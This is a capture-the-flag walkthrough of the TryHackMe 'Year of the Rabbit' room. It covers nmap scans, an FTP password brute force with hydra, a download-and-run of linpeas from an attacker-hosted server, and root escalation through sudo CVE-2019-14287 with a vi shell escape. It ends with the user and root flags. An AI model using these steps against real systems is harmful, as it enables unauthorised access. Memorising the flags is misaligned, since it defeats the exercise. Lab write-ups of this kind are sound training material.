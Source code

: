 # Year of the Rabbit

## Overview

Time to enter the warren...

Room link: https://tryhackme.com/room/yearoftherabbit
Difficulty: **Easy**

## Walkthrough

Initiating a full port scan against the target, we see ports 21 (FTP), 22 (SSH), and 80 (HTTP) are open.

```console
$ nmap -p- -T4 <VICTIM_IP> -oN scans/initial_nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 10:38 GMT
Nmap scan report for <VICTIM_IP>
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 32.47 seconds
```

Running a full scan against these ports shows the host is running VSFTPd version `3.0.2` and Apache `2.4.10` on a Linux-based system:

```console
$ nmap -p 21,22,80 -A -T4 <VICTIM_IP> -oN scans/open_ports.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-02 10:39 GMT
Nmap scan report for <VICTIM_IP>
Host is up (0.031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (99%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 7.1.1 - 7.1.2 (93%), Linux 3.13 - 4.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.66 ms 10.9.0.1
2   30.50 ms <VICTIM_IP>

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```

Navigating to the website shows the Apache2 default homepage:

![Year of the Rabbit - Default Apache](/images/yotr_default_apache.png)

From a Gobuster scan, we see an `/assets` directory:

![Year of the Rabbit - Assets](/images/yotr_assets.png)

From `styles.css`, we see a hidden comment for `sup3r_s3cr3t_fl4g.php`:

![Year of the Rabbit - Styles.css](/images/yotr_styles_css.png)

Navigating to this site for the first time redirects us to the infamous Never Gonna Give You Up, with an alert on the site hinting that we should turn off JavaScript:

![Year of the Rabbit - Sup3r S3cret Fl4g](/images/yotr_sup3r_s3cret_fl4g.png)

Instead of this, we can inspect the requests in BurpSuite which reveals hidden directory `/WExYY2Cv-qU`:

![Year of the Rabbit - Hidden Directory](/images/yotr_hidden_directory.png)

Inspecting this directory shows a single `Hot_Babe.png` image file:

![Year of the Rabbit - Directory Contents](/images/yotr_directory_contents.png)

Downloading the file and running `binwalk` identifies hidden data within the file, the `strings` output for which shows a list of credentials for the `ftpuser`:

```console
$ binwalk -e Hot_Babe.png
$ strings _
```

![Year of the Rabbit - Dictionary](/images/yotr_dictionary.png)

Using `hydra` now with our dictionary, we can obtain the `ftpuser` user's password:

```console
$ hydra -l ftpuser -P ftp_pass.txt ftp://<VICTIM_IP> -t 30
```

![Year of the Rabbit - Hydra](/images/yotr_hydra.png)

We can then successfully authenticate as `ftpuser`:

![Year of the Rabbit - Login Success](/images/yotr_login_success.png)

Listing the files in the directory, we see a `Eli's Creds.txt` file:

![Year of the Rabbit - FTP Get](/images/yotr_ftp_get.png)

Viewing the contents, this file turns out to be encoded using [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck), an esoteric programming language:

![Year of the Rabbit - Eli's Creds](/images/yotr_eli_creds.png)

Using [dcode-fr - brainfuck](https://www.dcode.fr/brainfuck-language), we can decode this :

![Year of the Rabbit - Brainfuck](/images/yotr_brainfuck.png)

Logging in via SSH:

![Year of the Rabbit - SSH Login](/images/yotr_ssh_login.png)

Searching for this directory, we find it within `/usr/games/`:

```console
$ find / -name "s3cr3t" 2>/dev/null
```

![Year of the Rabbit - /usr/games/secret](/images/yotr_usr_games_s3cr3t.png)

The file `.th1s_m3ss4g3_15_f0r_gw3nd0l1n3_0nly!` shows their credentials:

![Year of the Rabbit - Gwendoline Creds](/images/yotr_gwendoline_creds.png)

Can now `su` to `gwendoline` and view the contents of `user.txt` within `/home/gwendoline`:

![Year of the Rabbit - user.txt](yotr_user_txt.png)

Running `sudo -l`, we see the following output:

![Year of the Rabbit - sudo -l](/images/yotr_sudo_l.png)

This means we can run `/usr/bin/vi /home/gwendoline/user.txt` as any user other than `root`.

To enumerate the host further, we can download [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20231203-9cdcb38f0) to the host:

```
# Attacker machine
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20231203-9cdcb38f/linpeas.sh
$ sudo python3 -m http.server 8080

# Victim machine
$ wget http://<ATTACKER_IP>:8080/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

From the results, we see an outdated version of `sudo`:

![Year of the Rabbit - Linpeas Sudo Version](/images/yotr_linpeas_sudo.png)

Searching for exploits, we see a local privilege escalation vulnerability dubbed CVE-2019-14287. With this version of `sudo`, no check is made for the existence of a specified user ID, so it executes a given binary with arbitrary user ID and `sudo privileges`. It uses the arguments `-u#-1` which returns `0`, the `root` user's ID:

```console
$ sudo -l
...
	(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This will open the `vi` text editor which can be escaped by typing `:!/bin/sh` which will launch a shell as `root`:

![Year of the Rabbit - Root flag](/images/yotr_root_flag.png)

-----

1. What is the user flag?

```
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

2. What is the root flag?

```
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```